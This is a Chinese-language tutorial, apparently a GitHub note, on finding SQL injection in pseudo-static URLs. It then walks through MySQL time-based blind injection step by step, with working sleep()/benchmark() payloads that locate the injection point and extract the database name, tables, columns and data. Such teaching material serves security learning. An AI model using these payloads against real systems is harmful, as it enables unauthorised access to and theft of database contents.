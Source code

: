   
### 【伪静态注入的挖掘】

* **方法**
  * 先去掉html看页面是否返回正常
  * 在数字后加入注入语句
  * 有一些伪静态可以改为xxx.php?id=11的形式


### 【延迟注入漏洞】

* **使用条件**
  * 用于，无法回现和无法显示错误页面的场景
  使用if(length(注入语句)=N,sleep(5),1)，改变N的值，如果条件成立，通过服务器的休眠时间，来判断是否存在延时注入点，如果休眠五秒，则存在延时注入，如果不休眠在则反之，不存在延时注入点！
  
  * 不同的mysql数据库版本，延迟注入语句也不同
  mysql >=5.0  的可以使用sleep()进行查询
  mysql<5.0  的可以使用benchmark()进行查询（benchmark用法：benchmark(n,sql语句)  n为查询次数，通过查询次数增多 时间变得缓慢来判断是否存在延迟）
  
* **注入思路**
  * 判断注入点时字符型还是数字型
  * 使用sleep语句猜测数据库名字长度
  * 猜测数据库由哪些字符组成
  * 猜列名
  * 猜数据

* **实战说明**
  * 第一步：判断注入点
  ```sql
  ?id=1' and sleep(5)-- -  //正常休眠
  ?id=1" and sleep(5)-- -  //无休眠
  ?id=1') and sleep(5)-- - //无休眠
  ?id=1") and sleep(5)-- - //无休眠
  ```
  总结：由此可以判断注入点为数值型注入点 包裹符号为'号
  
  * 第二步：判断当前数据库库名的长度
  ```sql
   ?id=1' and if(length(database())=8,sleep(10),1)-- -
  ```
  通过改变数据库的长度的值来判断，是数据库名，如：length(database())=N
  
  * 第三步：判断当前数据库下的库名
  ```sql
  ?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(10))-- -
  ```
  通过判断服务器没有睡眠，ascii码转换115为s ，那么就得出数据库第一个字符为s
  
  * 第四步：猜表名
  ```sql
  ?id=1' and if((select ascii(substr((select table_name from information_schema.tables where table_schema="security"limit 0,1),1,1)))=101,sleep(5),1)-- -
  ```
  
  * 第五步：猜字段名,猜数据
  猜字段语句：
  ```sql
  ?id=1' and if((select ascii(substr((select column_name from information_schema.columns where table_name="表名"limit 0,1),N,1)))=101,0,sleep(5))-- -
  ```
  猜数据：
  ```sql
  and if((select ascii(substr((select 字段名 from 库名.表名 limit 0,1),N,1)))=101,0,sleep(5))
  ```
  
